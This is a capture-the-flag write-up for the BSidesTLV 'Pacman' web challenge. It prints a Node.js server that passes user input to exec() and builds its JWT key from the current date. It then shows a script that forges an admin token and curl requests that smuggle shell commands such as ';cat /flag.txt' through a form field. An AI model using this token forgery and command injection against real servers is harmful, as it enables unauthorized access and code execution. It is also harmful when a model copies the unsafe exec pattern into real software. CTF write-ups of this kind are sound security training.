 # Pacman
* Category: Web Application
* 500 Points
* Solved by the JCTF Team

## Description
> Hi Hacker!
> I need your help!
> I've built a Pacman game for my website and now I see suspicious activity on my > server, I suspect that the code I wrote is vulnerable for something...
> 
> Can you take over my server and locate the flag?
> 
> http://pacman.challenges.bsidestlv.com/

The following source code was attached:

```javascript
const express = require('express');
const app = express();
const crypto = require('crypto');
const jwt = require('jsonwebtoken');
const cookieParser = require('cookie-parser');
const { exec } = require('child_process');
const bodyParser = require('body-parser');


app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

app.use(cookieParser());


function generateKey() {

    const date = new Date();
    const year = date.getFullYear();

    let month = date.getMonth() + 1;
    month = (month < 10 ? "0" : "") + month;

    let day  = date.getDate();
    day = (day < 10 ? "0" : "") + day;
    const key = `${year}:${month}:${day}:LevelUP!`;
    return crypto.createHash('md5').update(key).digest("hex");

}

function decodeValue(token, key) {
    try {
        return jwt.verify(token, key, function (err, decoded) {
            return decoded.isAdmin
        });
    }
    catch(err) {
        return false;
    }

}


app.get('/', function(req, res) {
    if(req.headers['user-agent'] === 'LevelUP!' && decodeValue(req.cookies.auth, generateKey())) {
        res.render('game.ejs');
    } else {
        res.send("You are not authorized!");
    }

});


app.post('/levelUp', function(req, res) {
    if(req.headers['user-agent'] === 'LevelUP!' && decodeValue(req.cookies.auth, generateKey())) {
        const level = req.body.level;
        exec('./levelup ' + level, (err, stdout) => {
            res.send(stdout)
        });
    } else {
        res.send("You are not authorized!");
    }

});
app.listen(5000, '127.0.0.1',
    () => console.log(`Example app listening on port 5000!`));

```

## Solution

The attached source file contains the logic we need in order to pass the `jwt.verify` check successfully, so let's start with that.

The JWT token uses a key generated by `generateKey()`. The ingredients are just the day/month/year and a hardcoded string, so we can easily replicate the key.

Then, we just need to encode the payload `{ "isAdmin": "1" }`.

The following node script does that:
```javascript
const crypto = require('crypto');
const jwt = require('jsonwebtoken');

function generateKey() {

    const date = new Date();
    const year = date.getFullYear();

    let month = date.getMonth() + 1;
    month = (month < 10 ? "0" : "") + month;

    let day  = date.getDate();
    day = (day < 10 ? "0" : "") + day;
    const key = `${year}:${month}:${day}:LevelUP!`;
    return crypto.createHash('md5').update(key).digest("hex");

}

var h = generateKey()
console.log("Hash:")
console.log(h)

var token = jwt.sign({ isAdmin: '1' }, h, { algorithm: 'HS256'});
console.log("JWT:")
console.log(token)
```

The result:
```
root@kali:~/CTFs/bsides/Pacman# nodejs hash.js
Hash:
55c0e94af90e38d9a4544c19e2ff99f8
JWT:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvHZhxbE
```

Now we just mix in the user-agent, and we get:
```console
root@kali:/media/sf_CTFs/bsidestlv/Pacman# curl --cookie "auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvHZhxbE" -A "LevelUP!" http://pacman.challenges.bsidestlv.com/levelUp -X POST -d "level=1337"
Level up!
```

This is good, but what do we do with this?

We can try to level up a few times, see if we get anywhere:
```console
root@kali:/media/sf_CTFs/bsidestlv/Pacman# for i in $(seq 1 10); do curl --cookie "auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvH
ZhxbE" -A "LevelUP!" http://pacman.challenges.bsidestlv.com/levelUp -X POST -H "Content-Type: application/json" -d '{"level":"$i"}'; done
Level up!
Level up!
Level up!
Level up!
Level up!
```

That was fun, but not enough.

Notice how `/levelUp` is using `exec('./levelup ' + level, ...)` to perform its logic. What if we piggyback this and send another command to be executes as well?

```console
root@kali:/media/sf_CTFs/bsidestlv/Pacman# curl --cookie "auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvHZhxbE" -A "LevelUP!" http://pacman.challenges.bsidestlv.com/levelUp -X POST -H "Content-Type: application/json" -d '{"level":"8;ls"}'
Level up!
a
app.js
b
challenge.js
levelup
node_modules
package-lock.json
package.json
views
```

Our "`ls`" was executed right after `./levelup 8;`.

Let's continue to look around:
```console
root@kali:/media/sf_CTFs/bsidestlv/Pacman# curl --cookie "auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvHZhxbE" -A "LevelUP!" http://pacman.challenges.bsidestlv.com/levelUp -X POST -H "Content-Type: application/json" -d '{"level":"8;ls /"}'
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Found the flag, let's print it:
```console
root@kali:/media/sf_CTFs/bsidestlv/Pacman# curl --cookie "auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjoiMSIsImlhdCI6MTU2MTU3NjI3OH0.WP8x7NRSQqqqBLtBcX-qyAor3i4Wik7ybCWfvHZhxbE" -A "LevelUP!" http://pacman.challenges.bsidestlv.com/levelUp -X POST -H "Content-Type: application/json" -d '{"level":"8;cat /flag.txt"}'
Level up!
BSidesTLV{H1dd3nPacmanLevelUP!}
123
123
```
